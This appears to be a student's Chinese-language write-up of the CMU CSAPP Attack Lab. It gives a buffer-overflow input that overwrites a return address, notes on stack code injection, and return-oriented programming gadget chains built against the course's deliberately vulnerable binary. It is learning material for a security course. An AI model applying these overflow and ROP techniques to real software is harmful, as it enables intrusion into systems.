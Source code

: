 # CMU CSAPP lab 3: attack lab
## level 1
所用工具
- objdump -d
- gdb

目标是修改getbuf函数中的ret之后的位置。（writeup）

暴力解法：(1h)
- 不停地尝试输入字符串，需要被修改的地址躺在40Byte远的地方，于是输入: 带星号的是touch1的地址。
```hex
11 22 33 44 55 66 77 88 99 00 11 22 33 44 55 66 77 88 99 00 11 22 33 44 55 66 77 88 99 00 11 22 33 44 55 66 77 88 99 *00 c0 17 40 00 00 00 00 00*
```

理论解法：
getbuf 中为数据预留了0x28个Byte的位置，也就是40个Byte
```asm
sub    $0x28,%rsp
```

小结：
此题用到了简单的修改return地址。C3 ret的原理就是pop rip。所以将栈上的地址修改为想要的新rip，既能完成攻击。攻击的前提是：知道目标地址。此处程序地址没有随机（被老师有意关闭了），所以是固定的。若不固定，可以通过相对地址推算。

## level 2
工具
- 想植入 instruction 就需要它对应的 byte code 。 可以写汇编->编译->反编译查看

```bash
 gcc -c xxx.s -o xxx
 objdump -d xxx > xxxx.s 
```


write up 的提示很到位。此题需要在栈上写入代码，并返回到栈上执行。RECALL: stack只是一块memory。此安全问题已被很好解决：即设置memory page的可执行位，stack page 为不可执行。
所以前提：关闭 stack page 不可执行的安全选项。。

## level 3
踩坑：想要攻击的函数若调用别的函数可能覆盖 stack 上你的攻击代码。

## level 4
gadget 1: 4019ab pop %rax

gadget 2: 4019a3 movl %rax,%edi

touch2

## level 5
有两种可能路径：
1. 找到原有代码中，cookie的地址。
2. 想办法动态取出随机后的栈地址。

第二种比较自然

尝试找出farm中所有在表内的gadget:
```
401a06 movq %rsp %rax
4019a2 movq %rax %rdi

401a3c: movl %esp %eax
401a42: movl %eax %edx
401a34: movl %edx %ecx
401a13: movl %ecx %esi

4019ab pop %rax

4019dc: popq %rsp 4019dd: movl %eax %edx
```
发现可以用movq %rsp %rax 把地址拿出来，但是我们还需要对地址进行加减，否则不能指定到想要的存cookie的位置。

于是再次观察farm，发现有一个函数本身就有用：
```
4019d6 add_xy
```
此时我想用以下的方式构建答案byte code：
```
401a06 movq %rsp %rax
4019a2 movq %rax %rdi
4019ab pop %rax
cookie
401a00 nop (start with 00)
4019ab pop %rax
16
401a42 movl %eax %edx
401a34 movl %edx %ecx
401a13 movl %ecx %esi
4019d6 add_xy
4019a2 movq %rax %rdi
touch3
```
其中 nop 的加入是为了让 cookie 字串以 0 为结束。
但是这个方法会seg fault。。。之后再分析

更好的答案是把 cookie 字串放在最后让后添 0
```
401a06 movq %rsp %rax
4019a2 movq %rax %rdi
4019ab pop %rax
0x48
401a42 movl %eax %edx
401a34 movl %edx %ecx
401a13 movl %ecx %esi
4019d6 add_xy
4019a2 movq %rax %rdi
touch3
cookie 
00
```

### seg fault 分析
1. 可能是因为输入太长了，覆盖了什么东西？
    - 把标准答案后再添了点东西，发现并不会造成 seg fault 不是这个原因。
2. 猜测是栈顶释放掉空间属于是别人的了，所以要把未来要用的数据藏在栈底。
    - 确实被别的函数改动了。。。还是要把数据藏好，好奇为什么第二题放在栈顶也不会出问题。是和随机栈位置有关吗？